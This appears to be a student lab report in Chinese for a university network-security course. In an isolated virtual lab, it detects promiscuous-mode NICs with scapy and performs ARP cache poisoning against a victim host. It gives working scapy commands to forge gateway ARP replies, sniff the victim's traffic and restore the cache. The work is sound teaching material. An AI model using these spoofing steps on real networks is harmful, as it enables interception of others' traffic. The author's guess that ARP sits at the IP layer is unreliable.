

网络监听实验

## 网络拓扑


节点信息如下：

* 攻击者主机
  * 08:00:27:b9:73:f3/eth0
  * 172.16.111.128

* 受害者主机
  * 08:00:27:66:2d:77/eth0
  * 172.16.111.145
* 网关
  * 08:00:27:86:0f:d3/enp0s9
  * 172.16.111.1

## 实验准备

**安装scapy**

```bash
# 安装python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```


<br>

## 实验一：检测局域网中的异常终端

* 检测「混杂模式」是否开启

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```


* 攻击者主机监听受害者主机

```bash
# 在攻击者主机上开启scapy(非root用户)
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.145")
```


```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:66:2d:77 brd ff:ff:ff:ff:ff:ff

# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.145")
```


* 手动关闭「混杂模式」

```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```



<br>

## 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的`scapy`交互式终端完成

* 构造一个ARP请求

```bash
# 获取当前局域网的网关 MAC 地址:172.16.111.1
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:b9:73:f3
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:b9:73:f3
#      psrc= 172.16.111.128
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1
```


* 发送ARP广播请求

```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

* 伪造网关的ARP响应包并发送

```bash
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.145
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.145", hwdst="08:00:27:b9:73:f3")

# 发送上述伪造的 ARP 响应数据包到受害者主机
send(arpspoofed)
```


* 查看ARP缓存

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址


* 攻击者主机抓包

​	在攻击者主机使用`tcpdump -i eth0 -n -p`抓包，可以看到攻击者主机抓到了靶机数据

* 恢复正常网关ARP记录

```bash
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:86:0f:d3", pdst="172.16.111.145", hwdst="08:00:27:66:2d:77")
sendp(restorepkt1, count=100, inter=0.2)

## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


<br>

## 遇到的问题

**遇到的问题1：**

在实验二中在攻击者主机构造好ARP请求并发送后并没有收到理想的受害者主机的答复

```bash
# 理想答复
# Begin emission:
# Finished sending 1 packets.
# Received 1 packets, got 1 answers, reamining 0 packets

# 收到的结果
# Begin emission:
# Finished sending 1 packets.
# Received 0 packets, got 0 answers, reamining 1 packets
```

解决办法：

参考畅课讨论区同学的经验分享[解决实验过程中攻击者主机无法正确发送ARP广播请求](http://courses.cuc.edu.cn/course/90732/forum#/topics/348207?show_sidebar=false&scrollTo=topic-348207&pageIndex=1&pageCount=1&topicIds=350415,348207,344841&predicate=lastUpdatedDate&reverse)发现有两种解决办法：

* 关闭除了当前局域网所属的内部网络之外的所有网卡
* scapy指定网卡发送数据包

我采取了第二种方法，发现该方法可行，解决了问题


**遇到的问题2：**

在实验二中伪造网关发送ARP响应包之后在受害者主机查看ARP缓存，发现网关MAC地址并没有被替换


解决办法：

参考[黄玮老师教学视频](https://www.bilibili.com/video/BV1CL41147vX/?p=37&vd_source=1cdb5e20bad2af25921f327621feabee)，将`sendp`修改成`send`，结果显示可行


查了一下`sendp`和`send`的区别，参考[Scapy的基本操作](https://blog.csdn.net/qq_45887590/article/details/114606451)文章得到的解释是

```
这两个函数的区别在于send()工作在第三层，而sendp()工作在第二层。
```

也就是说send()用来发送IP数据包，而sendp()则用来发送Ether数据包，因为构造的`arpspoofed`是arp响应包，而arp协议在IP层，推测可能需要使用`send`才能成功发送

## 参考资料

[解决实验过程中攻击者主机无法正确发送ARP广播请求](http://courses.cuc.edu.cn/course/90732/forum#/topics/348207?show_sidebar=false&scrollTo=topic-348207&pageIndex=1&pageCount=1&topicIds=350415,348207,344841&predicate=lastUpdatedDate&reverse)

[教学视频](https://www.bilibili.com/video/BV1CL41147vX/?p=37&vd_source=1cdb5e20bad2af25921f327621feabee)

[Scapy的基本操作](https://blog.csdn.net/qq_45887590/article/details/114606451)

[电子教材-实验四](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)